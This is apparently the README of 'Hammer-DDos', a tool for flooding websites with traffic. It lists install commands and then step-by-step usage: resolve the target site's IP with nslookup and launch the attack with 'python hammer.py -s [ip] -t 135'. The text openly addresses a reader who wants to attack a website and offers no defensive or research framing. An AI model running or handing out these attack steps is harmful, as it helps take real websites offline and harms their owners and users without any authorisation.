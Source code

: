 # Hammer-DDos

$ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com ...

Hammer need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Hammer<br>
$ python hammer.py -s [ip Address] -t 135<br>
example:<br>
$ python hammer.py -s 123.45.67.89 -t 135<br>
